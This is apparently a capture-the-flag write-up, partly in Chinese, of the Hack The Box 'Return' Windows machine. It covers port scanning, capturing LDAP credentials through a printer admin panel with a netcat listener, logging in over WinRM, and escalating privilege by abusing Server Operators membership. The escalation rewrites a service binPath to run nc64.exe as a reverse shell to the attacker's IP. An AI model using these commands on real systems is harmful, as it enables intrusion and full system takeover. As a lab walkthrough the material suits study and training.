

**Return is an easy difficulty Windows machine featuring a network printer administration panel that stores LDAP credentials. These credentials can be captured by inputting a malicious LDAP server which allows obtaining foothold on the server through the WinRM service. User found to be part of a privilege group which further exploited to gain system access.**

```
Return 是一款简单难度的 Windows 机器，具有存储 LDAP 凭据的网络打印机管理面板
这些凭据可以通过输入恶意 LDAP 服务器来捕获，该服务器允许通过 WinRM 服务在服务器上获得立足点
发现用户属于特权组的一部分，该特权组被进一步利用以获得系统访问权限
```

## <span style="color:lightblue">Recon</span>
### <span style="color:lightgreen">Nmap</span>

```
ports=$(nmap -p- --min-rate=1000 -T4 10.129.95.241 | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
nmap -sC -sV -p$ports 10.129.95.241

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: HTB Printer Admin Panel
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-04-25 09:27:28Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
```

```
域控机器
```

### <span style="color:lightgreen">Website - TCP 80</span>


```
http://10.129.95.241/settings.php
```



```
我们可以尝试更改Server Address 获取对应的凭据信息
```

```
sudo nc -lvnp 389
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::389
Ncat: Listening on 0.0.0.0:389
Ncat: Connection from 10.129.95.241.
Ncat: Connection from 10.129.95.241:52310.
0*`%return\svc-printer�
                       1edFg43012!!
```

```
return\svc-printer:1edFg43012!!
```

### <span style="color:lightgreen">WinRM</span>

```
evil-winrm -i 10.129.95.241 -u svc-printer -p '1edFg43012!!'

*Evil-WinRM* PS C:\Users\svc-printer\Desktop> ls


    Directory: C:\Users\svc-printer\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        4/25/2024   2:22 AM             34 user.txt


*Evil-WinRM* PS C:\Users\svc-printer\Desktop> type "C:/Users/svc-printer/Desktop/user.txt"
a89596456ff28b272c693646935a1353
```

## <span style="color:lightblue">Privilege Escalation</span>
### <span style="color:lightgreen">Abuse Server Operators</span>

```
Server Operators

Members of this group can start/stop system services

Server Operators组可以操作系统服务
```

```
*Evil-WinRM* PS C:\Users\svc-printer\Documents> upload /home/qax/nc64.exe
Info: Uploading /home/qax/nc64.exe to C:\Users\svc-printer\Documents\nc64.exe

                                                             
Data: 60360 bytes of 60360 bytes copied

Info: Upload successful!


*Evil-WinRM* PS C:\Users\svc-printer\Documents> sc.exe config vss binPath="C:\Users\svc-printer\Documents\nc64.exe -e cmd.exe 10.10.14.16 443"
[SC] ChangeServiceConfig SUCCESS
*Evil-WinRM* PS C:\Users\svc-printer\Documents> sc.exe stop vss

*Evil-WinRM* PS C:\Users\svc-printer\Documents> sc.exe start vss
```

```
sudo nc -lvnp 443
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.129.95.241.
Ncat: Connection from 10.129.95.241:64973.
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```

```
C:\Windows\system32>type c:\users\administrator\desktop\root.txt
type c:\users\administrator\desktop\root.txt
1e89d05fc5cf3fce485c6357983b57f9
```

```
sc.exe config VSS binpath="C:\windows\system32\cmd.exe /c C:\programdata\nc64.exe -e cmd 10.10.14.16 443"
```

